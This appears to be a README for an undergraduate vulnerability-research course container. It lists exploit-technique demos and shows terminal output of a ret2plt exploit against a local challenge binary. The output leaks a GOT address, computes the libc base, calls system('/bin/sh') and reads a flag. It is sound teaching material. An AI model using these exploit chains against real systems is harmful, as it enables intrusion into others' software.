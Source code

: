 ## Undergrad VR Docker Container

Building the course as a docker instance allows us to distribute course demonstrations verified to work. You can launch the container with ``docker run -ti tjoconnor/vr-course``, which will drop you into a ``tmux`` session with a ``zsh`` in the ``demos`` directory.

```
# docker run -ti tjoconnor/vr-course

{8:53}/demos ➭ ls
aarch64-demo  fastbins-demo  hof-demo  oob-demo      ret2dlresolve-demo  seccomp-demo    srop-demo    type-confusion-demo
brop-demo     heap-demo      jop-demo  ret2csu-demo  ret2plt-demo        shellcode-demo  tcache-demo  unsafe-unlink-demo

```
Each of the course demonstrations has a binary and a script that can be used to demonstrate the exploit technique by launching ``python3 pwn-ret2plt.py BIN=./chal.bin ``.  Adding ``GDB`` to the script opens a debugger next to the run program.  

```
# docker run -ti tjoconnor/vr-course

{8:50}/demos ➭ cd ret2plt-demo

{8:50}/demos/ret2plt-demo ➭ ls
chal.bin  check-elf-rop-primitives.py  check-libc-rop-primitives.py  flag.txt  pwn-ret2plt.py  README.md  solarpanther.py  src

{8:50}/demos/ret2plt-demo ➭ python3 pwn-ret2plt.py BIN=./chal.bin 
 
[*] Loading gadgets for '/demos/ret2plt-demo/chal.bin'
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/demos/ret2plt-demo/chal.bin': pid 83
[*] POP RDI is at 0x400723
[*] GOT[gets] is at 0x601028
[*] PLT[puts] is at 0x400520
[*] main is at 0x4196006
[*] Sending Ret2PLT Chain and Waiting for GOT[gets] Leak
[*] Paused (press any to continue)
[*] GOT[Gets] is at 0x7f61abae3050
[*] Calculating Libc Base: GOT[gets](0x7f61abae3050) - Libc.sym[Gets] (0x75050) = Libc Base (0x7f61aba6e000)
[*] Libc base is at 0x7f61aba6e000
[*] System is at 0x7f61ababa920
[*] /bin/sh is at 0x7f61abc0404f
[*] Paused (press any to continue)
[*] Sending Chain Borrowing /bin/sh (0x7f61abc0404f) and system (0x7f61ababa920) from Libc
[*] Switching to interactive mode
$ cat flag.txt
flag{i_sure_wished_this_worked_remotely_too}
```

Adding ``QEMU`` emulates the execution using ``qemu-amd64``, which is useful for environments like Macbook Arm-Based machines that cannot properly call ``ptrace()`` inside amd64-based containers. Launching the same script on a M2 Macbook looks like the following. Notice that libc address space is now controlled by QEMU and lacks the normal tell-tale ``0x7f`` initial byte. 

```
# docker run -ti tjoconnor/vr-course QEMU

# python3 pwn-ret2plt.py BIN=./chal.bin QEMU

[*] Loading gadgets for '/demos/ret2plt-demo/chal.bin'
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/usr/bin/qemu-amd64': pid 83
[*] POP RDI is at 0x400723
[*] GOT[gets] is at 0x601028
[*] PLT[puts] is at 0x400520
[*] main is at 0x4196006
[*] Sending Ret2PLT Chain and Waiting for GOT[gets] Leak
[*] Paused (press any to continue)
[*] GOT[Gets] is at 0x2aaaab363050
[*] Calculating Libc Base: GOT[gets](0x2aaaab363050) - Libc.sym[Gets] (0x75050) = Libc Base (0x2aaaab2ee000)
[*] Libc base is at 0x2aaaab2ee000
[*] System is at 0x2aaaab33a920
[*] /bin/sh is at 0x2aaaab48404f
[*] Paused (press any to continue)
[*] Sending Chain Borrowing /bin/sh (0x2aaaab48404f) and system (0x2aaaab33a920) from Libc
[*] Switching to interactive mode

$ cat flag.txt
flag{i_sure_wished_this_worked_remotely_too}
```

## QEMU Emualtion Issues

Unfortunately, not all of the emulated binaries work correctly at this time. 

The following demonstrations do not work under QEMU emulation
- seccomp-demo
- srop-demo
- type-confusion-demo
- brop-demo

The following demonstrations do not work under QEMU but work fine if ROSETTA is the Docker Emulation engine
- fastbins
- unsafe unlink
- ret2csu
